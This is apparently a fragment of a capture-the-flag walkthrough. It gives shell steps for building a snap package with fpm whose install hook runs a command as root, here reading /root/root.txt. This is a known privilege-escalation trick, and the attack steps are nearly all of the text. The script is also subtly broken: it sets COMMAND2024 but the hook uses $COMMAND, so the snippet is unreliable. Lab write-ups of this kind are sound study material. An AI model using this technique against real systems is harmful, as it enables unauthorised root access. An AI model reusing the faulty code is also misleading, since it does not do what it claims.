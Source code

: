 ![](./IMG/39.png)

> Follow this instruction in my kali, then generating a snap file by fpm

```
COMMAND2024='cat /root/root.txt'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
```
![](./IMG/40.png)

> Install fpm first 

```
gem install fpm
```
